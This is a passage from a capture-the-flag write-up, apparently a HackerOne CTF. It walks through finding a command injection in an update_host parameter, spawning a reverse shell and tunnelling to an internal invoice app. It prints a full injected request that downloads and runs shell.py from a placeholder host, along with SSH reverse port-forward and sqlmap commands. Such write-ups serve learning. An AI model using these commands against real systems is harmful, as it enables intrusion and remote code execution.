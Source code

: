 Cody is the creator of the CTF. Could this be a hint? I really didn't know. But that made me try parameters with `_`:
```
update_server=test
server_host=test
host_server=test
update_host=test
```

Suddenly, I got `Connecting to http://test:5000/ and downloading update manifest`!! Yeah! So I was able to change the hostname and so do a SSRF... No, No. None of my attempts triggered a http request. What about a command injection? Using backticks (\`) I was able to inject a sleep command. Success, let's do a reverse shell:

```
GET /update?port=80&update_host=localhos`wget+http://X.X.X.X:666/shell.py+-O+/tmp/.shell.py;python+/tmp/.shell.py;rm+-rf+/tmp/.shell.py`t HTTP/1.1
Host: 104.196.12.98
Cookie: session=eyJsb2dnZWRJbiI6dHJ1ZX0.XIHPog.46NKzPROJLINKkYDyQpOQI27JD0
```

We are inside! Where is the flag?

## Internal Server (172.28.0.3) - Invoice App

There were no flags! Doing an initial recon I noticed that I was in a docker container. And the first thing that came to my mind was CVE-2019-5736, a docker container escape to host. But I decided to look more, initially by checking the app source code at `/app/main.py` to see if there were other containers on the same network. What a surprise when I found another server at `172.28.0.3` with port 80 open. Using curl I was able to see that it was another web app, something about Hackerone invoices! 

### Tunnel

To make my life easier and to not leak what I was doing I decided to make an SSH tunnel to my server with port forwarding:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
ssh -fN  -o StrictHostKeyChecking=no -o PreferredAuthentications=password -o PubkeyAuthentication=no -R *:81:172.28.0.3:80 root@X.X.X.X -p 32777
```

The above SSH command will forward all connection to local port 81 on X.X.X.X to 172.28.0.3:80. So from this moment on, I could use all my local exploits using localhost:81 as the target. 

### Login

Browsing the web app the first thing we could see is a login form. And again my first shot was a SQL Injection, which made no sense at all. Using only a backtick would fire an exception, but I could not build a valid query. Also tried SQLMap:

```bash
# python sqlmap.py -u http://localhost:81/auth --data "username=admin&password=admin" --level=5 --risk=3
```
